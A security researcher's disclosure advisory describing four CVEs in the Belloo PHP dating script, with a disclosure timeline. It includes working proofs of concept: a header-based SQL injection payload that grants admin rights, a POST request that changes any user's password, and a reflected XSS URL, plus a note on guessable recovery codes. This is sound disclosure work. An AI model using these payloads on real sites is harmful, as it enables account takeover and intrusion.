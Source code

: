 === Content from www.chudamax.com_82c4d560_20250108_141936.html ===
  [![avatar](/assets/img/ava.jpg)](/)  [I understand](/)nothing

* [HOME](/) * [CATEGORIES](/categories/) * [TAGS](/tags/) * [ARCHIVES](/archives/) * [ABOUT](/about/)

        [Home](/)   Multiple vulnerabilities in the belloo dating script 4.2.7.7   Post      Cancel
# Multiple vulnerabilities in the belloo dating script 4.2.7.7

  Maksim Chudakov  on Oct 25, 2021*2021-10-25T08:23:03+02:00*   Updated Dec 9, 2021*2021-12-09T16:55:10+01:00*   3 min read

![belloo.jpg]()

Regarding to the official site, [Belloo](https://premiumdatingscript.com/) (other possible names are premiumdatingscript, lindoo, social match) is a “High quality dating software with incredible out of the box ready-to-use functionality”. For me, it was just a random PHP project for one evening source code testing (it’s not related to my current employer). Anyone is able to check the source code using publicly available updated php scripts from the vendor site. The vulns are super basic, I believe that bad guys are already aware of it.

It’s almost 4 months passed since the developer was notified and there are no intentions to fix the issues.

## Disclosure Timeline:

* 30/06/2021 Initial Vendor notification* 30/06/2021 Initial Vendor response* 25/07/2021 Follow-up* 26/07/2021 It was aligned to fix the vulnerabilities in 60 days* 22/09/2021 A CVE request was submitted* 25/10/2021 The advisory is published

## CVE-2021-41695 SQL injection in connect.php + blocklist bypass

In **connect.php** (and in some other places) $ip parameter is used to update a Client IP without sanitization

  `| ``` 1 2 3 4 5  ```  ``` $ip = getUserIpAddr();   if( $sm["user"]["ip"] != $ip )  {   $mysqli->query("UPDATE users set ip = '" . $ip . "' where id = '" . $_SESSION["user"] . "'");  }   ``` | |
| --- | --- |`

The developer relies on the IP address format since it should not contain any special characters. Let’s see how **getUserIpAddr** function is defined:

*core.php:*

  `| ``` 1 2 3 4 5 6 7 8 9 10  ```  ``` function getUserIpAddr(){   if(!empty($_SERVER['HTTP_CLIENT_IP'])){   $ip = $_SERVER['HTTP_CLIENT_IP'];   } else if(!empty($_SERVER['HTTP_X_FORWARDED_FOR'])){   $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];   } else {   $ip = $_SERVER['REMOTE_ADDR'];   }   return $ip;   }  ``` | |
| --- | --- |`

Additional checks are implemented to support proxy servers and load balancer scenarios. The problem is that $\_SERVER[‘HTTP\_CLIENT\_IP’] and $\_SERVER[‘HTTP\_X\_FORWARDED\_FOR’] values can be easily spoofed by an attacker using crafted HTTP headers in the request. In the current case, it leads to access control bypass and arbitrary SQL code execution in the Update Query.

A basic exploit to add admin privileges for any user would be like:

  `| ``` 1  ```  ``` CLIENT-IP: 1.1.1.1',admin=1 WHERE name = 'hacker'; -- -   ``` | |
| --- | --- |`
## CVE-2021-41696 IDOR vulnerability in the password change procedure allows changing a password of any user

*Note: The same type of IDOR vuln exists in a lot of other functions in user.php, but password change is most critical.*

requests\user.php:

  `| ``` 1 2 3 4 5 6 7 8 9 10 11  ```  ``` <?php case 'changep':  $password = secureEncode($_POST['new_password']);  if (strlen($password) < 6) {  echo 'Error - '.$sm['lang'][654]['text'];  exit;   }  $salt = base64_encode($_POST['new_password'].secureEncode($_POST['user'])); $pswd = crypt($password,$salt);   $query = "UPDATE users SET pass = '".$pswd."',imported = '' WHERE id =  '".secureEncode($_POST['user'])."'";  $mysqli->query($query);   break;  ``` | |
| --- | --- |`

**Id** value in the UPDATE query is controlled by user input. Any auth user can change a password for admin (id=1) or any other user.

Exploit POC would be something like:

  `| ``` 1 2  ```  ``` POST /requests/user.php HTTP/1.1  action=changep&user=1&new_password=12345678  ``` | |
| --- | --- |`
## CVE-2021-41694 Weak password recovery function

requests\user.php contains code for password recovery:

  `| ``` 1 2 3 4 5 6  ```  ``` case 'recover':   …  $code = md5($time);   $mysqli->query("INSERT INTO emails (type,uid,code) VALUES (1,'".$user->id."', '".$code."')");  $link = $sm['config']['site_url']."/index.php?page=recover&code=".$code."&id=".$user->id;  $name = $user->name;   $email = $user->email;   forgotMailNotification($name,$email,$link);  ``` | |
| --- | --- |`

md5($time) function is used to generate a secret recovery code. Since it is super easy to predict time value on the server (for example, by Nginx Date header from the response) – it is possible to use bruteforce approach to guess the code.

## CVE-2021-41697 Reflected XSS in assets/sources/instagram.php

There is an instruction in the code to echo a parameter without any checks:

  `| ``` 1 2 3  ```  ``` <?php if (isset($_GET['error'])) {   echo 'An error occurred: ' . $_GET['error_description'];   ``` | |
| --- | --- |`

POC:

  `| ``` 1  ```  ``` https://site.name/assets/sources/instagram.php?error=123&error_description=%3Cscript%3Ea lert(1);%3C/script%3E  ``` | |
| --- | --- |`  [CVE](/categories/cve/) This post is licensed under  [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/)  by the author. Share       Recent Update

* [Kerberos 102 - Cross-Realm Operations](/posts/kerberos-102-cross-realm-operations/)* [Kerberos 102 - Delegation](/posts/kerberos-102-delegation/)* [Kerberos 102 - Overview](/posts/kerberos-102-overview/)* [HackTheBox - BroScience | Walkthrough](/posts/htb-broscience/)* [HackTheBox - Sekhmet | Writeup](/posts/htb-sekhmet/)
 Contents
### Further Reading

  [Apr 8*2023-04-08T19:00:03+02:00*
### HackTheBox - BroScience | Walkthrough

BroScience Overview BroScience is a medium-difficulty challenge focusing on web-related vulnerabilities, source code review, and custom code writing for exploitation. This box serves as excelle...](/posts/htb-broscience/)  [Apr 1*2023-04-01T14:23:03+02:00*
### HackTheBox - Sekhmet | Writeup

Sekhmet Overview Sekhmet is an insane difficulty box: a lot of enumeration, exploitation of NodeJS deserialization, ModSecurity and Windows AppLocker bypass, weak ZIP encryption types, pivoting...](/posts/htb-sekhmet/)  [Mar 23*2023-03-23T10:23:03+01:00*
### Kerberos 102 - Delegation

[Part 1] - Kerberos 102 - Overview [Part 2] - Kerberos 102 - Delegation [Part 3] - Kerberos 102 - Cross-Realm Operations Overview Kerberos delegation is a feature in the Kerberos authentication...](/posts/kerberos-102-delegation/) [HackTheBox - Monitors | Writeup](/posts/htb-monitors/) [Kerberos 102 - Overview](/posts/kerberos-102-overview/)

© 2023 [Maksim Chudakov](https://twitter.com/MChudakov). Some rights reserved.

Powered by [Jekyll](https://jekyllrb.com) with [Chirpy](https://github.com/cotes2020/jekyll-theme-chirpy) theme.

#### Trending Tags


